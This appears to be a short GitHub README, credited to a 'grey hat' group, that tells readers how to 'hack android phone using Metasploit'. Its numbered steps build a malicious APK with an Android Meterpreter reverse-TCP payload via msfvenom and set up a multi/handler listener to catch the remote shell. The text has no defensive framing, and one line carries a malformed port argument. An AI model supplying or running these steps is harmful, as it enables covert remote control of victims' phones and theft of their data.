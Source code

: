 # kali_metasploit_rat_for_androd
Collected From Bd Grey Hat Hackers

How to hack android phone using Metasploit.
Commands - 
1. msfvenom -p android/meterpreter/reverse_tcp LHOST="Your Ip" LPORT+4444 R > main.apk

2. msfconsole

3. use multi/handler

4. set payload android/meterpreter/reverse_tcp

5. set lhost "your IP"
6. set lport 4444

7. exploit
